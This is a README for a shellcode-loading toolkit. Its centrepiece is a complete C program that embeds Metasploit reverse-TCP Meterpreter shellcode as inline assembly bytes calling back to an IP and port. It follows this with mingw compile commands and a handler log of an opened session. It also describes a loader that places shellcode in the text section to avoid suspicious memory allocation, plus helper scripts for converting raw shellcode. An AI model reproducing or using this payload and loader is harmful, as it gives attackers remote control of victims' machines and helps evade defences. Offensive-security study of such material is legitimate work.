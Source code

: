 # Shellcoding
Shellcoding Utilities

# WARNING

The way that the code is designed will prevent self modifying shellcode to work properly. Since the shellcode is part of the .text section which is by default READ/EXEC shellcode that perform write action will crash. I'm planning on releasing a writable wrapper soon.

# Example:

Standard meterpreter shellcode

```
#include <Windows.h>

int main() {
    asm("call code\n\t"
        ".byte 0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,0x8d,0x5d,0x68,0x33,0x32,0x00,0x00,0x68,0x77,0x73,0x32,0x5f,0x54,0x68,0x4c,0x77,0x26,0x07,0x89,0xe8,0xff,0xd0,0xb8,0x90,0x01,0x00,0x00,0x29,0xc4,0x54,0x50,0x68,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,0x68,0xc0,0xa8,0xc5,0x84,0x68,0x02,0x00,0x1f,0x90,0x89,0xe6,0x50,0x50,0x50,0x50,0x40,0x50,0x40,0x50,0x68,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x97,0x6a,0x10,0x56,0x57,0x68,0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0xff,0x4e,0x08,0x75,0xec,0xe8,0x67,0x00,0x00,0x00,0x6a,0x00,0x6a,0x04,0x56,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7e,0x36,0x8b,0x36,0x6a,0x40,0x68,0x00,0x10,0x00,0x00,0x56,0x6a,0x00,0x68,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x93,0x53,0x6a,0x00,0x56,0x53,0x57,0x68,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x68,0x00,0x40,0x00,0x00,0x6a,0x00,0x50,0x68,0x0b,0x2f,0x0f,0x30,0xff,0xd5,0x57,0x68,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x5e,0x5e,0xff,0x0c,0x24,0x0f,0x85,0x70,0xff,0xff,0xff,0xe9,0x9b,0xff,0xff,0xff,0x01,0xc3,0x29,0xc6,0x75,0xc1,0xc3,0xbb,0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5\n\t"
        "code:\n\t"
        "ret\n\t");

        return 0;
}
```

Compile it 

```
mingw32-gcc.exe -c meterpreter.c -o meterpreter.o
mingw32-g++.exe -o meterpreter.exe meterpreter.o
```

Profit

```
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:8080
[*] Sending stage (179779 bytes) to 192.168.197.1
[*] Meterpreter session 3 opened (192.168.197.132:8080 -> 192.168.197.1:50634) at 2019-05-11 10:54:26 -0400

meterpreter > sysinfo
Computer        : WTL-SP-4XXHWT2
OS              : Windows 10 (Build 17763).
Architecture    : x64
System Language : en_US
Domain          : RingZer0
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter >
```

# loader.c

A simple shellcode loader in C. This shellcode loader is not storing the shellcode in the data section. It store it directly in the text section to new to do shady memory allocation to call your shellcode.

The ASM syntax is for GCC compiler it can be adapted for VC too

# raw2hex.py

Convert raw shellcode into something else

```
raw2hex.py rawshellcodefile -list
0x90, 0x90

raw2hex.py rawshellcodefile
\x90\x90
```

# makefile.py

Generate the final C code

```
makefile.py 0x90,0x90,0x90 output.c
```

# Credit
Mr.Un1k0d3r RingZer0 Team

